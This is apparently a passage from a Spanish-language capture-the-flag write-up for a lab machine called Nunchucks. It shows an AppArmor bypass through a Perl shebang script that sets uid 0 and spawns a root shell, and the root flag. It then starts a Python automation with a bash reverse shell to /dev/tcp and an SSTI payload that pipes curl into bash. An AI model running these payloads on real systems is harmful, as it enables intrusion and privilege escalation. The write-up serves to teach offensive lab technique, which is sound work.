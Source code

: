```
  /usr/bin/whoami mrix,
  /opt/backup.pl mrix,
  owner /home/ r,
  owner /home/david/ r,

}
```
Acá podemos ver los permisos que tienen definidos para este binario, en este punto debemos pensar en encontrar una forma de burlar esta seguridad, vamos a buscar algun bug o falla de este sistema por la web, encontramos en la web de [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/apparmor) una forma de bypass de apparmor, la cual es hacer uso del Shebang, que corresponde a las cabeceras en los archivos tipo **!#/bin/bash**, esto quiere decir que podemos ejecutar con perl un archivo si utilizamos la cabecera, y apparmor no nos limitará. Para esto crearemos el siguiente archivo:

```
#!/usr/bin/perl

use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";
```
Llamaremos a este archivo test.sh, si lo ejecutamos:
```
david@nunchucks:~$ ./test.sh
# whoami
root
```

De esta forma burlamos el apparmor y pudimos cambiarnos el uid a 0 y spawnear un shell. Siendo ya root buscamos la flag:
```
 cat root.txt
a275bba6e914afcf25ff7bef2d

```
¡Listo! Nos hemos convertido en administrador.

Antes de terminar, como extra haremos la automatización de la intrusión en python.

Las librerías son las siguientes:
```python
import requests,subprocess,socket
from pwn import *
```
Las variables globales son:
```python
ipHost = sys.argv[1]
nunIP = 'https://store.nunchucks.htb/api/submit'
s = requests.Session()
```
Luego, tenemos la primera función que se encarga de escribir en un archivo llamado index.html, el cual lleva el código para entablar la conexión hacia nuestra máquina:
```python
def html_payload():

    with open("index.html","w") as file:
        Shebang = "#!/bin/bash\n"
        payload =f'bash -i >& /dev/tcp/{ipHost}/1234 0>&1'
        file.write(Shebang)
        file.write(payload)
```
La siguiente funición se encarga de explotar el **SSTI**:
```python
def ssti():
    payload = """ {\{range.constructor(\"return global.process.mainModule.require('child_process').execSync('curl %s | bash')\")()}} """ % ipHost
    # el primer backslash del payload no va, es solo para que la sintaxis de md me deje poner el payload.
```